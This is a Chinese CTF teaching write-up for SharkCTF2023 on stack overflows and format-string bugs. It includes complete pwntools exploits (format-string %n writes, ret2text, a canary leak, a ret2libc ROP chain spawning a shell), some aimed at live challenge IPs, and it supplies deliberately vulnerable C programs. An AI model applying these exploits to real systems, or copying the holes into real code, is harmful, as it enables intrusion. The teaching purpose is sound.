


# SharkCTF2023

上大学也来到一年了，到了我去招新大一学弟学妹的时候， 这里给他们写一点关于栈溢出的东西，方便他们自己去学习理解

我觉得pwn的学习过程是需要自己学会上网找资料学习的，不要全部指望我什么都手把手的教(好吧其实是我比较懒)，我会告诉你你该去学什么，剩下的你要学会自己去搜去找，网上有很多大师傅们的文章写的都非常好，如果有看不懂的地方可以来和我一起交流学习

## PWN的基础要学什么

- c语言

  > c语言是pwn的最重要的基本功，写这篇博客的时候pwn的第一周已经快结束了，pwn的第一周的题目我出了三个很简单的题目，考点分别为nc，命令注入，整数溢出(考前培训讲过了)，其目的就是希望大家可以有更多的时间去看一看c语言

- 汇编基础

  > 新生培训的时候我说过，汇编是pwn很重要的东西，很多逻辑你搞不清楚的时候汇编会给你答案，ida会骗人但是汇编是诚实的，当然，刚入门的时候只需要了解进栈出栈的时候的一些基本指令，下面我会进一步介绍

- gdb的使用

  > gdb就是调试的时候使用的工具，pwn是比较偏向于底层的，学会使用gdb会给你带来很大的方便，简单的使用我在入门指北中给大家写了，想了解更多可以自行上网搜索

- 一点点的python基础

  > 入门级别的pwn只要求你会使用pwntools，有相当于没有的编程能力即可

## Stack

栈是一个非常重要的数据结构，在数据结构课程中，这种后进先出的结构记作栈，我这里讲的栈为函数调用栈

### 寄存器

可以理解为：一块有特殊作用的内存。在这里储存的内容有其相应的作用

**入门常用的寄存器**

> rsp：指向栈顶
>
> rbp：指向栈底
>
> rip：存放下一条即将执行的指令
>
> rdi，rsi，rdx等：存放函数参数
>
> 更多有关寄存器知识自行上网浏览

### 汇编语言

入门常用的有关栈的汇编有如下几条：call push pop leave ret

具体什么作用自己去查，不会的多来问我

### 入栈出栈

魏哥哥之前大一的时候画了个视频，播放的稍微有点快，大家一帧一帧的扣一下，了解一下入栈出栈

[提取码:0814](https://pan.baidu.com/s/1Z8H9Ounv7IkpZoYegFtepA )

简单来说分为以下几个步骤

```Assembly
endbr64 ;"相当于nop，无作用，理解成标志位"
push rbp ;"压入rbp的值"
mov rbp,rsp ;"rsp给rbp寄存器"
sub rsp,30h ;"开栈"
;"其他操作"
;"其他操作"
leave ;"mov rsp,rbp  pop rbp"
ret ; "pop rip"
```

这样子就完成了一个函数的入栈出栈过程

## 栈溢出攻击

前面培训讲了入栈出栈的顺序，如果忘记了的可以看上面魏哥哥的视频，也可以看我之前在培训讲的录屏，那个test_stack文件可以来找我要

下面给大家讲讲什么是栈溢出，很简单，我们知道有一些变量是储存在栈上的，在ida里面就可以看的很清楚，如下图


大家可以看到，这里的buf就是储存在栈上，距离rbp距离为 **-0x30** 的地方，假设存在一些函数，对输入的长度限制不严格，比如我输入了0x30+0x8的长度，就可以覆盖栈上一些数据

**举个例子**

大家都知道call的时候会push rip，然后最后ret的时候会pop rip，这样子让程序继续正常运行，如果我通过溢出，修改了push rip这一步压入栈中的数据，就可以在ret的时候控制程序去执行我想要执行的任何程序，这就是栈溢出攻击

 **这里只是简单介绍，更多的细节各位可以自己上网寻找资料**

## Week1 

### Test_your_nc

这道题主要让大家配置好linux的环境即可，我上传了giantbranch师傅的ubuntu16，若有同学还没有配置好ubuntu可以在下方链接领取

[提取码 8086](https://pan.baidu.com/s/1N2gDx5IgbqZc0S_PS8GxTQ)

之后下载附件，使用ida打开，可以看到这里让你输入谁是Asuri最帅的之后，和程序内的一段字符串进行匹配，若相同即可获得flag.关于如何查看程序中的字符串，在re的课上已经交过了（ida的基本使用）

有些同学看不懂这个匹配，问了一下是不会数组，可以去菜鸟教程学习一下数组

[菜鸟教程](https://www.runoob.com/)

这里我使用pwntools脚本写一下交互，并且给出注释，因为后期pwn题都需要利用pwntools脚本交互，相信魏哥哥的python课大家都有好好的听课

```python
from pwn import* #引入pwntools库
#p=process('./test_your_nc')
p=remote('ip','port')

p.recvuntil('please input who is the most handsome in Asuri')
ans='RGF3bl9XaGlzcGVy'
#小彩蛋，写misc和密码的同学应该很容易看出来，base64解码一下
p.sendline(str(ans))

p.interactive()
```

不会pwntools的同学可以看一下pwntools的使用文档

[pwntools](https://www.xjx100.cn/news/262545.html?action=onClick)

### How_2_getshell

这题考点主要是system的命令注入，在正儿八经的ctf比赛中肯定不会出这个题，预期解是想要大家了解到sh也可以生成shell，一般会用在存在一个字符串末尾是sh，这样子不需要/bin/sh\x00也可以获得shell，但是比较友好的是题目没有过滤cat flag命令，可以直接获得flag

下次我就这样子出（,有兴趣的同学可以试试这样子改怎么写，gcc命令也写出来了，本地编译一个吧

```c
#include<stdio.h>
#include<unistd.h>
#include<string.h>
#include<stdlib.h>
void init()
{
	setvbuf(stdin, 0LL, 2, 0LL);
	setvbuf(stdout, 0LL, 2, 0LL);
	setvbuf(stderr, 0LL, 2, 0LL);
}
//gcc -no-pie -fno-stack-protector -o test test.c
int main(){
	init();
	puts("Do you know how to get shell");
	puts("you can't use /bin/sh");
	char buf[0x8];
	gets(buf);
	if(strlen(buf)>0x8){
		puts("you bad bad~");
		exit(0);
	}
	if(!strcmp(buf,"/bin/sh\x00")){
		puts("tiao pi");
		exit(0);	
	}
	system((*(void*)buf);
	return 0;
}

```

### bignum

嘉木哥哥都说这个不算整数溢出了（真的很简单


之前给大家讲过关于数据储存的原理

整数是以原码形式储存，负数是以补码的形式储存，这里只要输入一个负数就可以bypass

源码给大家，大家回去可以使用pwntools交互来写一下

```c
#include<stdio.h>
#include<unistd.h>
#include<string.h>
#include<stdlib.h>
void init()
{
	setvbuf(stdin, 0LL, 2, 0LL);
	setvbuf(stdout, 0LL, 2, 0LL);
	setvbuf(stderr, 0LL, 2, 0LL);
}
int main(){
	init();
	printf("hello pwner,welcome to level3\n");
	int num;
	scanf("%d",&num);
	if(num>=0&&(unsigned)num<0x10000)
		exit(0);
	else
		system("/bin/sh\x00");
	return 0;
}
```

## Week2

### Cr4zy_Thusd4y

考点：格式化字符串

#### 格式化字符串漏洞

1. 首先了解一下格式化字符串漏洞，他是由于printf缺失参数导致的，常规printf的格式应该是 *int printf(const char \*format, ...)*  ，但是一些同学手误，就会写成 *int printf(const char \*format)* 这样子也可以输出字符串，但是却会由于格式化字符串的原因导致一些错误

2. 首先要了解printf的原理，这里推荐hollk师傅的教程 [好好说话之格式化字符串](https://blog.csdn.net/qq_41202237/article/details/107662273) 其中对于格式化字符串漏洞的原理讲的非常明白，这里我简单说一下

   1. 首先printf也是一个函数，是参数就要有参数入栈，首先了解一下传参方式，32位完全依靠栈传参，也就是会把参数push到栈上，而64位的前几个参数是通过寄存器传参，大概的顺序应该的 *rdi，rsi，rdx......* ~~别问为什么没后面的，因为我忘了~~ 

      

      从汇编中可以很清楚的看到，我们把printf的第一个参数给了rdi，什么，你说你不知道 *[rbp+buf]* 是什么？那就去看read函数的汇编

   2. 那么之后就了解一下 *%* 的原理，比如下面这个式子

      ```c
      printf("a is %d",a);
      ```

      我们知道， *" "* 内的部分是printf的第一个参数，然后printf在解析字符串的时候，如果遇到 *%* 就会去寻址，如果是第一个 *%* 就去找第二个参数填入这个位置，这就是格式化字符串的原理

3. 这样子之后我们了解一下 *%n* 它的作用是 把对应参数的内容当做指针，并向这个指针中写入内容，写入的内容为 *%n* 之前出现的字符数。根据这个题，我们很容易就可以想到，我们应该向flag写入50即可获得shell，自然就有了

   ```
   payload = b"%50c%7$n" + p64(flag_addr)
   ```

4. 很多同学不会gdb调试，我们试一下

   ```python
   from pwn import*
   p=process('./format')
   elf=ELF('./format')
   
   flag=0x60108c
   p.recvuntil("What's your name?")
   pause()
   p.sendline(b'%50c%7$n'+p64(flag))
   
   p.interactive()
   ```

   首先在exp中，发送payload之前利用 *pause()* 下断点，这样子可以获得程序的 *pid* ,然后利用gdb attach

   

   这里看到 *pid = 3131* ,然后我们另起一个terminal，输入 *gdb* ，之后输入 *attach 3131* 即可进入程序，接下来就是一路n下去，一直到 *call printf* 

   

   这时候我们可以看到，rsp指的地方，也就是printf的第七个参数，是我们的输入，然后我们的 *flag_addr = 0x60108c* 在第八个参数，所以我们应该用 *%7$p* ，有些同学把payload写成了 *payload = p64(flag_addr) + b"%50c%7$n"* 这样子并不能绕过，是因为p64打包使得末尾出现很多 *\x00* ，而printf存在 *\x00* 截断

### Stack_Overflow

考点：ret2text

#### 栈溢出攻击

1. ret2系列是最简单的栈溢出攻击，ret2text更是没有任何保护。之前给大家讲过 *call func* 的时候会首先 *push rip* 然后通过 *func* 结尾的 *ret* 实现 *pop rip* 使得程序正确回归父亲函数运行。这个push进栈的特殊变量我们叫它 *ret_addr* 

2. *gets()* 函数并不存在对输入长度的判断，而栈上的变量的大小都是有一定范围的，那么我们只需要利用 *gets()* 函数，就可以实现对栈上的任意变量的修改，栈溢出就是通过对 *push rip* 压入栈中的 *ret_addr* 进行修改，就可以控制该函数的返回值，从而达到劫持的效果

3. 这里我们仍然使用gdb来进行演示

   ```python
   from pwn import*
   p=process('./ret2text')
   
   backdoor=0x400717
   payload=b'a'*(0x20+0x8)+p64(backdoor)
   pause()
   p.sendline(payload)
   
   p.interactive()
   ```

   

   可以看到，通过gets的输入，我们修改了栈上的 *ret_addr* 为 *backdoor* 函数，从而获得了shell

### 你喜欢金丝雀吗

考点：格式化字符串+ret2text+深入理解汇编

仔细看看结尾的leave；ret，他是不是不太一样哦

剩下的就和前面的一样咯，就是前面两个题加起来

```python
from pwn import *
io=process("./pwn")
# io=remote("101.42.30.15",8407)

gdb.attach(io)
pause()

io.sendafter(b"you!!!!!\n",b"%15$p.%1$p".ljust(0x10,b"."))
canary=int(io.recv(10),16)
io.recvuntil(b".")
stack=int(io.recv(10),16)+0x10
print("canary: ",hex(canary))
print("stack: ",hex(stack))


payload=p32(0x80485e0)*8+p32(canary)+p32(stack)*3
io.send(payload)

io.interactive()
```

这里附上一位力大砖飞的选手的wp，属实很难绷，很不优雅


```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

#p = process("./t3")
#gdb.attach(p)
#pause()
p = remote("101.42.30.15", 8407)
p.recvuntil(b"!!!!!")
'''
value = 0x32
offset = 6
target_addr = 0x60108c
payload = "%{}c%{}$lln".format(value, offset+3).ljust(8*3, "a").encode("ISO-8859-1")
payload += p64(target_addr)
'''
target_addr = 0xffffd0fc
offset = 7

payload = "%14$08x=%15$08x=%16$08x=%17$08x".encode("ISO-8859-1")
print(payload)
p.send(payload)
can = p.recv()
print("can1: ",can)
can = p.recv()[:-1]
print("can2: ",can)
can = can.decode()
can = can.split("=")
print("can: ",can)
for i in range(4):
 can[i] = int(can[i],16)

payload=b'a'*4*7 
for i in range(4):
 payload+=p32(can[i])
payload += p32(0) + p32(0x80485E0) + b'a'*4*3 + p32(0x80485E0)
print("payload:" ,payload)
p.send(payload)
#pause()
print(p.interactive())
```

### 原神，启动！

这题是给外校的非新生的大佬写的(事实证明大家不喜欢看汇编)

题目给了一个任意写，但是要注意的是，在第二个login函数中，我恢复了你的retaddr以及canary，这里需要看汇编看的更清楚一点，其他的很简单了

此外，在dress函数中：考虑到函数返回时只会修改寄存器，并不会清空栈，也就意味着我在上个函数布置的栈这个函数还能用，所以我们上个函数正常rop，虽然返回地址被改了，但是我这个函数再改回来就行了，刚好八字节可以修改返回地址

```python
from pwn import*
from time import*
#p=process('./ys')
#sleep(5)
p=remote('101.42.48.14',8094)
elf=ELF('./ys')
libc=ELF('./libc-2.23.so')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
pop_rdi=0x4009b3
main=0x4008f3
p.recvuntil(':\n')
p.sendline(str(10086))
p.recvuntil(':\n')
p.send(b'a'*18)
p.recvuntil(':\n')
payload=b'a'*0x30+p64(0)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.send(payload)
p.recvuntil('?\n')
p.sendline(str(48+4+4))
p.recvuntil('?\n')
p.send(p64(pop_rdi))
puts_add=u64(p.recv(6).ljust(8,b'\x00'))
print(hex(puts_add))
libc_base=puts_add-libc.sym['puts']
print(hex(libc_base))
system=libc_base+libc.sym['system']
print(hex(system))
binsh=libc_base+libc.search(b'/bin/sh\x00').next()
print(hex(binsh))
p.recvuntil(':\n')
p.sendline(str(10086))
p.recvuntil(':\n')
p.send(b'a'*18)
p.recvuntil(':\n')
payload=b'a'*0x30+p64(0)+p64(pop_rdi)+p64(binsh)+p64(system)
p.send(payload)
p.recvuntil('?\n')
p.sendline(str(48+4+4))
p.recvuntil('?\n')
p.send(p64(pop_rdi))
p.interactive()
```

